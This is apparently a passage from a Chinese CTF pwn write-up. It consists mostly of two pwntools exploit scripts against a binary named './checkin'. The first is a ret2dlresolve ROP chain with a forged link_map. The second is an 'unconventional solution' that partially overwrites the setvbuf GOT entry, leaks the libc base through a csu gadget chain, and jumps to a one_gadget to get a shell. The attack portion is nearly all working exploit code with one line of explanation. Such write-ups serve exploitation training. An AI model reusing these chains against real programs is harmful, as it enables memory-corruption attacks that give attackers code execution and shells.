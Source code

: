 ```python

payload = p64(pop_rdi_ret) + p64(fake_link_map_addr+0x48)
payload += p64(plt0+6) + p64(fake_link_map_addr) + p64(fake_reloc_arg) +p64(0)*4 + fake_link_map_1
payload += p64(rop_addr+0xa0*2) + p64(main_read)# 0xb0
p.send(payload)

payload = fake_link_map_2 + p64(rop_addr+0xa0*3) + p64(main_read)# 0xb0
p.send(payload)

payload = p64(fake_link_map_addr+0x80-8) + p64(leave_ret) #l_info[23] jmprel
payload = payload.ljust(0xa0, b'\x00')
payload += p64(rop_addr - 0x8) + p64(leave_ret)
p.send(payload)
p.interactive()
```

## 非常规解法

还是上面那到例题，程序没有关闭输入输出流。程序调用setvbuf，我们利用其获得的真实地址与puts的真实地址仅后三位不同，爆破修改其got表，利用csu实现调用puts输出stdout地址以获得libc_base，直接onegadget

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = process("./checkin")
elf =ELF('./checkin')
libc = elf.libc

# gdb.attach(p)
payload = b"a"*0xa0 + p64(0x4040c0+0xa0) + p64(0x4011BF)  #buf = 0x4040c0
p.send(payload)

payload = flat([  #csu
    0x404140,    #no use
    0x40124A,  # pop 6
    0,1,      #rbx rbp
    0x404040, # stdout  r12
    0,0,    # r13 r14
    0x404020,  #r15 setvbuf_got
    0x401230,  # ret 
    0,0,   #+8 rbx
    0x404140, #rbp
    0,0,0,0, #12 13 14 15
    0x4011BF #read = put
    ])
payload = payload.ljust(0xa0,b"\x00") + p64(0x404020+0xa0) + p64(0x4011bf) #read 
p.send(payload)
sleep(0.1)

p.send(b"\x50\xc4")
sleep(0.1)
libc_base = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,"\x00")) -0x1ed6a0

success("libc_base:"+hex(libc_base))

p.send(b"a"*0xa0 +p64(libc_base+0xe3b2e)*2 ) 

p.interactive()

```

